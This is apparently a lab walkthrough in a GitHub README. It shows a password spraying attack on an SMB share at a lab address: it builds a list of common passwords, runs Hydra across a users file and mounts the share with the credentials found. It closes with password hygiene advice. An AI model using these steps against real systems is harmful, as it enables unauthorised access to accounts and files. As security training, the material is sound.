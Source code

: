 # Performing Password Spraying Attack

This project focuses on managing password security by demonstrating a password spraying attack and emphasizing best practices for securing network shares. The goal is to explore the vulnerabilities of weak or common passwords in a networked environment and to highlight the importance of using strong, complex passwords to safeguard sensitive resources. Through the use of tools like Hydra and basic Linux commands, this project aims to provide a hands-on approach to understanding password-related security risks and reinforcing effective password management strategies.


---
## Step 1: Create a Mount Point  
To attach a network share, start by creating a mount point:  

```bash
mkdir /mnt/HR
```
<img src="1.png" alt="Description of Image" />

A mount point is necessary for accessing a network share once valid credentials are discovered.  

---

## Step 2: Check for Available Users  
View the list of users from the MS10 system (IP: 10.1.16.2):  

```bash
cat users.txt
```

> **Note:** If `users.txt` is not accessible, close and reopen the terminal. Ensure the prompt is `root@kali` and type:  
> ```bash
> ls -a
> ```  
> The file should then appear in the directory.
<img src="2.png" alt="Description of Image" />

---

## Step 3: Attempt Password Submissions  
### Discovered Passwords:  
```
abc123  
123456  
Pa$$w0rd  
```

### First Attempt:  
Try mounting the network share using the following command:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```
<img src="3.png" alt="Description of Image" />
When prompted for a password, enter: `abc123`  

Result: **Mount error** – This password is incorrect.

### Second Attempt:  
Try the second password:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `123456`  

Result: **Mount error** – This password is also incorrect.  

---

## Step 4: Automate with Hydra  
Manually testing each password is time-consuming, so let's automate the process. First, create a file containing the discovered passwords:  

```bash
echo abc123 > pass.txt  
echo 123456 >> pass.txt  
echo 'Pa$$w0rd' >> pass.txt  
cat pass.txt  
```

> **Important:** Ensure the passwords are spelled correctly, especially `Pa$$w0rd`. Use single quotes to avoid issues.
  <img src="4.png" alt="Description of Image" />

### Understanding the Commands:  
- `>` creates a new file and writes to it.  
- `>>` appends to the file without overwriting its contents.  

---

## Step 5: Launch Hydra for Password Spraying  
Use the Hydra wizard to perform a password spraying attack:  

```bash
hydra-wizard
```
<img src="5.png" alt="Description of Image" />
### Hydra Wizard Responses:  

| **Prompt**          | **Response**   |
|----------------------|----------------|
| Service              | smb            |
| Target               | 10.1.16.2      |
| Username             | users.txt      |
| Password             | pass.txt       |
| Test                 | (Press Enter)  |
| Port                 | (Press Enter)  |
| Module options       | (Press Enter)  |
| Run command          | Y              |

Hydra will now attempt each password for every user listed in `users.txt` against the MS10 share.  
<img src="6.png" alt="Description of Image" />
---

## Step 6: Verify Credentials  
Once Hydra identifies valid credentials, mount the share to confirm:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=jaime
```

Enter the password: `Pa$$w0rd`  

If no error appears, the share has been successfully mounted.  

View the share’s contents:  

```bash
ls /mnt/HR
```

To unmount the share, use:  
```bash
umount /mnt/HR
```
<img src="7.png" alt="Description of Image" />
---

## Conclusion: Best Practices for Password Security  
This project highlights the importance of good password management. To improve security:  

- Implement **password complexity** and **length requirements**.  
- Train users to avoid using simple passwords like `123456`.  
- Discourage writing down passwords. If necessary, securely destroy the paper afterward.  
- Use automated tools like Hydra responsibly to test and strengthen your security policies.

---